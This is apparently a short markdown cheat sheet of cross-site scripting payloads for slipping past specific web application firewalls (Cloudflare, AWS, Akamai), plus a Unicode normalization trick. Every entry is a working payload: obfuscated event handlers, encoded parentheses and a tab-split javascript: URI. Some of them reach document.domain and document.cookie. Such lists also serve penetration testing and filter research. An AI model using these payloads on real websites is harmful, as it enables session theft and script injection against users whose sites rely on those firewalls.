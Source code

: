 ## NFKC Unicode Normalization

```
%EF%B9%A4 -> <
%EF%B9%A5 -> <
```

## Cloudflare

```
<img src=x on onerror=alert()>
<svg/on/onload=alert(origin)>
<img src=x oNlY=1 oNerror=alert('xxs')//
```

```
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
```

## AWS

```
'%22%3E%3Casuka%20AutoFocus%20ContentEditable%20OnFocusIn%3D_%3Dalert%2C_%28document.cookie%29%3E'
```

## Akamai

```
<A href="javascrip%09t&colon;eval.apply`${[jj.className+`(23)`]}`" id=jj class=alert>Click Here
```
